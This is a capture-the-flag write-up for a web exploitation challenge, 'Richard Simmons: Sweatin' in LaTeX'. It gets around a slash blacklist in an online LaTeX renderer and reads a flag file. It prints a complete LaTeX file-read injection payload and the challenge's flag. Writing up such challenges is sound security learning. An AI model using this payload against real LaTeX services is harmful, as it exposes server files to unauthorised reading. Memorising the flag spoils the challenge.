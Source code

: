 # Richard Simmons: Sweatin' in LaTeX
### Category: Web Exploitation
### Author: James Lowther (Articuler)

## Writeup
The website appears to be a renderer for LaTeX code. Writing LaTex and clicking "Generate PDF" gives a link to a rendered PDf. 

1. Looking at the source HTML indicates that we need to read the flag from a file found in `/sweatin/to/the/oldies/flag.txt`.
2. LaTeX has the ability to read files, however certain strings have been blacklisted. Most notably, `/` has been blacklisted making it challenging to create the path to read the file.
3. The `/` character however can be isolated from `index.html` using the `\StrMid` function from the `xstring` package.
4. Using this we can build the following LaTeX code that will read build the path and read the flag:
```
\documentclass{minimal}
\usepackage{xstring}

\def\a{sweatin}
\def\b{to}
\def\c{the}
\def\d{oldies}
\def\e{flag.txt}

\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{43}{43}[\s]
\immediate\message{\s}
\immediate\closein\file

\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document} 
```

The flag can be found in the returned LOG data.

## Flag
magpie{r1ch4rd_l0v35_t0_5w34t}